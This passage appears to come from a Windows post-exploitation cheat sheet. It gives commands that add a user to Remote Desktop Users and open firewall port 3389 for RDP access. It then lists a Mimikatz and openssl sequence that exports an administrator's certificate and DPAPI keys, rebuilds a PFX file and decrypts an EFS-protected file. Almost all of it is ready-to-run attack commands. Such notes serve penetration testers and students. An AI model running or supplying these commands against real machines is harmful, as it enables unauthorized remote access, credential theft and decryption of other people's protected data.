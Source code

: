 # Optional
net localgroup "Remote Desktop Users" morph3 /add

# Reruling firewall
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
netsh advfirewall firewall add rule name="allow RemoteDesktop" dir=in protocol=TCP localport=3389 action=allow
</code></pre>

## &nbsp; &nbsp;&nbsp;&nbsp; Decrypting EFS files with Mimikatz
Follow the link here [How to Decrypt EFS Files](https://github.com/gentilkiwi/mimikatz/wiki/howto-~-decrypt-EFS-files)

<pre class="prettyprint linenums:"><code class="language-py">privilege::debug 
token::elevate 
crypto::system /file:"C:\Users\Administrator\AppData\Roaming\Microsoft\SystemCertificates\My\Certificates\thecert" /export

dpapi::capi /in:"C:\Users\Administrator\AppData\Roaming\Microsoft\Crypto\RSA\SID\id"

# Clear text password 
dpapi::masterkey /in:"C:\Users\Administrator\AppData\Roaming\Microsoft\Protect\SID\masterkey" /password:pass123

# After this command you must have the exported .der and .pvk files
dpapi::capi /in:"C:\Users\Administrator\AppData\Roaming\Microsoft\Crypto\RSA\SID\id" /masterkey:f2c9ea33a990c865e985c496fb8915445895d80b

openssl x509 -inform DER -outform PEM -in blah.der -out public.pem

openssl rsa -inform PVK -outform PEM -in blah.pvk -out private.pem

openssl pkcs12 -in public.pem -inkey private.pem -password pass:randompass -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

# Import the certificate
certutil -user -p randompass -importpfx cert.pfx NoChain,NoRoot

type "C:\Users\Administrator\Documents\encrypted.txt"
</code></pre>


# Post exploitation - information gathering

## &nbsp; &nbsp;&nbsp;&nbsp; Reading Event Logs
